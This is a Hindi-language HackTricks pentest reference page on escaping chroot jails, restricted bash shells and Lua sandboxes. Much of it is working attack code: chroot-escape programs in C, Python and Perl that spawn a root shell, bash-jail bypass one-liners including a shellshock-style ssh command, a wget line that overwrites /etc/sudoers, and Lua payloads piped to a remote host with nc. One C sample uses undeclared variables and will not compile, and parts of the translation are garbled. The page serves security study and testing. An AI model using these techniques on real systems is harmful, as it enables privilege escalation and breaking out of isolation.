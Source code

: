 # जेल से बाहर निकलना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## **GTFOBins**

**खोजें** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **यदि आप "शैल" गुणवत्ता के साथ किसी भी BINARY को निष्पादित कर सकते हैं**

## Chroot Escapes

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations) से: चरण में रखने की योजना नहीं है कि चरण तंत्र गुणवत्ता वाले (रूट) उपयोगकर्ताओं द्वारा जानबूझकर हस्तक्षेप के खिलाफ रक्षा करे। अधिकांश सिस्टमों पर, chroot संदर्भ सही ढंग से स्टैक नहीं करते हैं और chrooted कार्यक्रम यदि पर्याप्त विशेषाधिकार हैं तो एक दूसरा chroot कर सकते हैं।\
आम तौर पर इसका मतलब है कि भागने के लिए आपको chroot के अंदर रूट होना चाहिए।

{% hint style="success" %}
**उपकरण** [**chw00t**](https://github.com/earthquake/chw00t) निम्नलिखित स्थितियों का दुरुपयोग करने और `chroot` से बाहर निकलने के लिए बनाया गया था।
{% endhint %}

### Root + CWD

{% hint style="warning" %}
यदि आप एक chroot के अंदर **रूट** हैं तो आप **एक और chroot** बना कर **भाग सकते** हैं। यह इसलिए है क्योंकि 2 chroots (Linux में) साथ मौजूद नहीं हो सकते, इसलिए यदि आप एक फ़ोल्डर बनाते हैं और फिर उस नए फ़ोल्डर पर एक नया chroot बनाते हैं जिसमें **आप उसके बाहर हैं**, तो आप अब **नए chroot के बाहर होंगे** और इसलिए आप FS में होंगे।

यह इसलिए होता है क्योंकि आम तौर पर chroot आपकी काम करने की निर्देशित फ़ोल्डर में नहीं ले जाता, इसलिए आप एक chroot बना सकते हैं लेकिन उसके बाहर होंगे।
{% endhint %}

आम तौर पर आप एक chroot जेल के अंदर `chroot` बाइनरी नहीं पाएंगे, लेकिन आप **एक बाइनरी कंपाइल, अपलोड और निष्पादित** कर सकते हैं:
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>पायथन</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>पर्ल</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### रूट + सहेजी गई एफडी

{% hint style="warning" %}
यह पिछले मामले के समान है, लेकिन इस मामले में **हमलावर एक फ़ाइल डिस्क्रिप्टर को वर्तमान निर्देशिका में सहेजता है** और फिर **नए फ़ोल्डर में चरूट बनाता है**। अंततः, जैसे ही **उसके पास** चरूट के **बाहर** उस **एफडी** का **पहुंच** होता है, वह उसे **एक्सेस** करता है और वह **बाहर निकलता है**।
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### रूट + फोर्क + UDS (यूनिक्स डोमेन सॉकेट्स)

{% hint style="warning" %}
FD को यूनिक्स डोमेन सॉकेट्स के माध्यम से पारित किया जा सकता है, इसलिए:

* एक बच्चा प्रक्रिया बनाएं (फोर्क)
* UDS बनाएं ताकि माता-पिता और बच्चा बातचीत कर सकें
* बच्चे प्रक्रिया में एक विभिन्न फ़ोल्डर में chroot चलाएं
* माता-पिता प्रक्रिया में, नए बच्चे प्रक्रिया chroot के बाहर एक फ़ोल्डर का FD बनाएं
* UDS का उपयोग करके उस FD को बच्चे प्रक्रिया को पास करें
* बच्चे प्रक्रिया उस FD पर chdir करें, और क्योंकि यह उसके chroot के बाहर है, वह जेल से बाहर निकल जाएगा
{% endhint %}

### रूट + माउंट

{% hint style="warning" %}
* रूट डिवाइस (/) को चरण में एक निर्देशिका में माउंट करना
* उस निर्देशिका में chroot करना

यह लिनक्स में संभव है
{% endhint %}

### रूट + /proc

{% hint style="warning" %}
* चरण में एक निर्देशिका में procfs माउंट करें (अगर अभी तक नहीं किया गया है)
* एक pid खोजें जिसमें एक विभिन्न रूट/cwd प्रविष्टि है, जैसे: /proc/1/root
* उस प्रविष्टि में chroot करें
{% endhint %}

### रूट(?) + फोर्क

{% hint style="warning" %}
* एक फोर्क (बच्चा प्रक्रिया) बनाएं और एफएस में एक विभिन्न फ़ोल्डर में chroot करें और उस पर सीडी करें
* माता-पिता प्रक्रिया से, बच्चे प्रक्रिया के फ़ोल्डर को उस फ़ोल्डर में ले जाएं जहां बच्चे का chroot है
* यह बच्चे प्रक्रिया अपने आप को चरण के पूर्व एक फ़ोल्डर में पाएगा जो chroot के बाहर है
{% endhint %}

### ptrace

{% hint style="warning" %}
* पहले यूज़र अपनी प्रक्रियाओं को अपने खुद की प्रक्रिया से डीबग कर सकता था... लेकिन यह अब डिफ़ॉल्ट रूप से संभव नहीं है
* फिर भी, यदि यह संभव है, तो आप प्रक्रिया में ptrace कर सकते हैं और उसके भीतर एक शैलकोड निष्पादित कर सकते हैं ([इस उदाहरण को देखें](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## बैश जेल्स

### जाँच

जेल के बारे में जानकारी प्राप्त करें:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### पथ संशोधित करें

जांचें कि क्या आप पथ env चर को संशोधित कर सकते हैं
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### विम का उपयोग
```bash
:set shell=/bin/sh
:shell
```
### दस्तावेज़ बनाएं

जांचें कि क्या आप _/bin/bash_ के साथ एक निष्पादनीय फ़ाइल बना सकते हैं
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### SSH से बैश प्राप्त करें

यदि आप SSH के माध्यम से पहुंच रहे हैं तो आप इस ट्रिक का उपयोग करके एक बैश शैल को क्रियान्वित कर सकते हैं:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### घोषित करें
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

आप उदाहरण के लिए sudoers फ़ाइल को अधिलेखित कर सकते हैं
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### अन्य तरीके

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**यह पेज भी दिलचस्प हो सकता है:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python जेल्स

निम्नलिखित पेज पर Python जेल्स से बाहर निकलने के तरीके:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua जेल्स

इस पेज पर आप लुआ के अंदर जिन ग्लोबल फंक्शन्स तक पहुंच पाते हैं, उन्हें देख सकते हैं: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**कमांड का निष्पादन करने के साथ Eval:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
कुछ तरीके **डॉट का उपयोग किए बिना लाइब्रेरी के फ़ंक्शन को कॉल करने** के:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
एक पुस्तकालय के कार्यों की सूची बनाएं:
```bash
for k,v in pairs(string) do print(k,v) end
```
ध्यान दें कि प्रत्येक बार जब आप पिछले एक लाइनर को **विभिन्न lua वातावरण में निष्पादित करते हैं तो फ़ंक्शनों का क्रम बदल जाता है**। इसलिए यदि आपको एक विशिष्ट फ़ंक्शन को निष्पादित करने की आवश्यकता है तो आप एक ब्रूट फ़ोर्स हमला कर सकते हैं विभिन्न lua वातावरण लोड करके और le पुस्तकालय का पहला फ़ंक्शन कॉल करके:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**इंटरैक्टिव lua शैल**: यदि आप एक सीमित lua शैल के अंदर हैं तो आप नए lua शैल (और उम्मीद है असीमित) को बुलाकर प्राप्त कर सकते हैं:
```bash
debug.debug()
```
## संदर्भ

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (स्लाइड्स: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
AWS हैकिंग सीखें और प्रैक्टिस करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** को** **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
